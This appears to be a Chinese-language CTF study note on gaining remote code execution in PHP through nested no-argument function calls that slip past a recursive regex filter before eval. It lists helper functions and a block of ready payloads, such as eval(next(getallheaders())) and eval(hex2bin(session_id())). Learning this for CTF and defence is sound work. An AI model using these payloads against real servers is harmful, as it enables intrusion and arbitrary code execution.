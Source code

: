 # 原理
	- 情景
		- 某些题目会使用类似`/[^\W]+\((?R)?\)/`的正则表达式匹配并删除某个字符串中的内容，如果替换结果为`;`则执行原字符串
		- 也就是说，我们可以传入一个类似`aaa(bbb(ccc()));`的字符串并eval
		- 此时我们可以构造特殊的payload进行RCE
	- 比如
		- `pos(localeconv())`的结果是字符串`"."`
		- `var_dump(scandir("."));`可以打印当前文件夹中的内容
		- 我们就可以使用`var_dump(scandir(pos(localeconv())));`通过那个正则的检测并打印当前文件夹的内容
	- RCE
		- 首先想想如何构造任意字符串
			- 可以从headers中拿到：`next(getallheaders())`
				- 这样可以拿到最后一个header字段
				- 如果你想拼运气的话，可以使用array_rand随机拿一个header字段
			- 可以考虑拿GET/POST参数
		- 然后传给system函数即可
- # 常用函数
	- ```
	  scandir 
	  var_dump 
	  show_source 
	  localtime 
	  time 
	  current 
	  chr 
	  pos 
	  end 
	  next 
	  prev 
	  array_reverse 
	  readfile
	  array_flip
	  array_rand
	  array_reverse
	  file_get_contents
	  ```
- # 常见payload
	- ```
	  点
	  pos(localeconv())
	  next(str_split(zend_version()))
	  1
	  end(str_split(hebrevc(crypt(next(hash_algos())))))
	  
	  chr(ord(crypt(serialize(array()))))
	  
	  Ua
	  next(getallheaders())
	  
	  eval
	  eval(implode(reset(get_defined_vars())))
	  eval(next(getallheaders()))
	  eval(hex2bin(session_id())) # 其中session_id由PHPSESSID cookie控制
	  ```
- # 绕过
	- 如果正则支持函数名使用任意字符的话，可以使用PHP的动态函数调用技巧
	- 参考： [[CTF/WP/极客大挑战 2020 Roamphp4-Rceme]]
- # 其他知识点
	- ```
	  readfile()[readgzfile()]
	  读取文件并写入到输出缓冲。
	  highlight_file()[别名：show_source()]
	  语法高亮一个文件
	  scandir()
	  列出指定路径中的文件和目录
	  direname()
	  给出一个包含有指向一个文件的全路径的字符串，本函数返回去掉文件名后的目录名。
	  2/19
	  getcwd()
	  取得当前工作目录。
	  chdir($directory)
	  将 PHP 的当前目录改为 directory。
	  读取环境变量
	  get_defined_vars()
	  此函数返回一个包含所有已定义变量列表的多维数组，这些变量包括环境变量、服务器变量和用户定义
	  的变量。
	  getenv
	  获取一个环境变量的值
	  localeconv()
	  返回一包含本地数字及货币格式信息的数组,第一个值一直是.
	  phpversion()
	  获取当前的 PHP 版本
	  zend_version()
	  获取当前的 zend 版本（配合 str_split()割出点）
	  会话
	  session_id
	  获取/设置当前会话 ID
	  session_start
	  启动新会话或者重用现有会话
	  ```
-